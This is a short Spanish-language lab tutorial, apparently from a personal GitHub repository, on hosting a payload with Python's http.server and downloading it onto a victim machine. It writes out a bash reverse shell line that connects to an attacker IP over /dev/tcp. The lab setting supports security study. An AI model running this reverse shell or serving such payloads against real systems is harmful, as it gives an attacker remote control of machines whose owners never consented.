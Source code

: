 # Cómo Compartir Archivos con Servidor Http Con Python + Reverse Shell

- Creamos un Payload basico con el editor nano:
    
    ```bash
    nano payload.sh
    ```
    

![image.png](./imagenes/image%204.png)

- Escribimos el siguiente código que lo que hace básicamente de envió de una Reverse Shell. Guardamos y salimos de nano.
La IP pertenece a la maquina atacante.
    
    ```bash
    #!/bin/bash
    
    sh -i >& /dev/tcp/10.0.3.4/443 0>&1
    ```
    

![image.png](./imagenes/image%205.png)

- Vamos a crear un servidor web con Python.

```bash
python3 -m http.server 80

```

**python3**: **Llama a la versión 3 de Python**.

**-m http.server**: **Invoca el módulo http.server de Python**, que incluye las funcionalidades necesarias para crear un servidor HTTP básico.

**80**: Especifica que el servidor **usará el puerto 80**, el puerto predeterminado para el protocolo HTTP.

![image.png](./imagenes/image%206.png)

- Esto lo que hace es levantar un servidor web en el puerto 80 dentro del actual directorio dentro de la maquina kali.
- Si vamos a la maquina victima y ponemos la IP de la maquina Kali en el navegador accederíamos al directorio donde he creado el servidor web. De tal forma que si le doy un clip al archivo payload.sh lo descargaría.

![image.png](./imagenes/faad3445-f7c7-44b5-a98e-4a045fc997ea.png)